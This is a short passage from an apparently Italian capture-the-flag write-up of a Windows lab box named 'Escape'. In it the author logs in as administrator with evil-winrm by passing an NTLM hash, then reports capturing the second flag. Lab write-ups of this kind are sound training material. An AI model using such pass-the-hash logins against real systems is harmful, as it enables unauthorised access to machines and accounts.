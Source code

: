 Utilizzo evil-winrm per autenticarmi come administrator:

```bash
evil-winrm -i 10.10.11.202 -u administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee
```

<p align="center">
  <img src="/Immagini/Windows-Box/Escape/escape-15.png"/>
</p>

**Ottengo così il secondo flag!**
